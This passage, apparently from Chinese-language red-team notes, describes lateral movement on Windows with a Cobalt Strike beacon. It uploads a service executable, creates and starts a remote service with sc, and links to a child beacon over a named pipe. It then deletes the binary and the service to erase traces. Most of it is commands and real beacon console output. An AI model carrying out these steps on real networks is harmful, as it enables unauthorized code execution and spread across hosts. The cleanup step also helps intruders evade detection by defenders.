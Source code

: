 # 0x03 执行文件（方法一）

1、生成 Windows Service EXE 并上传

2、在目标主机上创建一个服务

```powershell
shell sc \\host create name binpath= c:\windows\temp\file.exe
```

```powershell
beacon> shell sc \\wintest create beacon binpath= c:\windows\temp\beacon.exe
[*] Tasked beacon to run: sc \\wintest create beacon binpath= c:\windows\temp\beacon.exe
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功
```

> 注：记住 binpath 路径

3、在目标主机上启动服务

```powershell
shell sc \\host start name
```

```powershell
beacon> shell sc \\wintest start beacon
[*] Tasked beacon to run: sc \\wintest start beacon
[+] host called home, sent: 56 bytes
[+] received output:
SERVICE_NAME: beacon 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3816
        FLAGS              : 
        
beacon> link wintest
[*] Tasked to link to \\wintest\pipe\msagent_da00
[+] host called home, sent: 36 bytes
[+] established link to child beacon: 192.168.175.130
```

4、清除痕迹与服务

```
shell sc \\host delete name
```

```powershell
beacon> shell del beacon.exe
[*] Tasked beacon to run: del beacon.exe
[+] host called home, sent: 57 bytes

beacon> shell del \\wintest\C$\windows\temp\beacon.exe
[*] Tasked beacon to run: del \\wintest\C$\windows\temp\beacon.exe
[+] host called home, sent: 83 bytes

beacon> shell sc \\wintest delete beacon
[*] Tasked beacon to run: sc \\wintest delete beacon
[+] host called home, sent: 69 bytes
[+] received output:
[SC] DeleteService 成功
```
